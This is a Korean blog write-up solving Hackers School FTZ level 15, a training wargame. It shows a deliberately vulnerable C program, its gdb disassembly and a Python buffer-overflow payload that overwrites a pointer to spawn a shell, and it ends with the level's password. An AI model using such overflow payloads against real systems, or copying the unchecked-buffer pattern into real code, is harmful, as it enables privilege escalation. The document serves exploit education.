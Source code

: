 ```yaml
---
date: '2022-10-05'
before : '2022-10-04'
after : '2022-10-06'
title: '해커스쿨 FTZ 레벨 15'
categories: [ 'KOR','pwn']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

BOF문제인데, int *check 포인터가 0xdeadbeef를 가리킨다면 쉘 코드를 실행시켜주는 식이다. 소스코드를 보면서 시작하자.


### 1. Level 15

```
#include <stdio.h> 
main(){
     int crap;  
     int *check; 
      char buf[20];  
     fgets(buf,45,stdin);  
     if (*check==0xdeadbeef)   
        {     setreuid(3096,3096);    
              system("/bin/sh");  
              }
    }
```

대충 요런식이다. gdb를 이용해서  disassemble 해보자.
```
0x080483b8 <main+0>:    push   ebp
0x080483b9 <main+1>:    mov    ebp,esp
0x080483bb <main+3>:    sub    esp,0x38
0x080483be <main+6>:    and    esp,0xfffffff0
0x080483c1 <main+9>:    mov    eax,0x0
0x080483c6 <main+14>:   sub    esp,eax
0x080483c8 <main+16>:   sub    esp,0x4
0x080483cb <main+19>:   push   ds:0x80495d4
0x080483d1 <main+25>:   push   0x2d
0x080483d3 <main+27>:   lea    eax,[ebp-56]
0x080483d6 <main+30>:   push   eax
0x080483d7 <main+31>:   call   0x80482d8 <fgets>
0x080483dc <main+36>:   add    esp,0x10
0x080483df <main+39>:   mov    eax,DWORD PTR [ebp-16] // 16 -12 pointer
0x080483e2 <main+42>:   cmp    DWORD PTR [eax],0xdeadbeef
0x080483e8 <main+48>:   jne    0x804840f <main+87>
0x080483ea <main+50>:   sub    esp,0x8
0x080483ed <main+53>:   push   0xc18
0x080483f2 <main+58>:   push   0xc18
0x080483f7 <main+63>:   call   0x80482f8 <setreuid>
0x080483fc <main+68>:   add    esp,0x10
0x080483ff <main+71>:   sub    esp,0xc
```
ebp-56 위치에 buf 배열이 마무리되고, ebp-16지점에 


단, 우리는 deadbeef의 메모리 주소값을 알아내어야 한다. 이를 위해선 gdb에서 x/20x를 해보면 된다. 노가다를 뛰면서 일일히 값을 입력하다보면 딱 0xdeadbeef가 나오는 주소를 발견하는데,

```
0x80484b2
```
라는걸 확인할 수 있다. 그럼 단순히 저 값을 bof 공격을 통해 check 포인터에 넣어주면 된다.
```
 (python -c 'print "A"*40+"\xb2\x84\x04\x08"'; cat) | ./attackme
```
단순하다고 할 수 있는 문제였던 것 같다.

비밀번호 : about to cause mass

---
## Source

- 해커스쿨 FTZ
- Me!
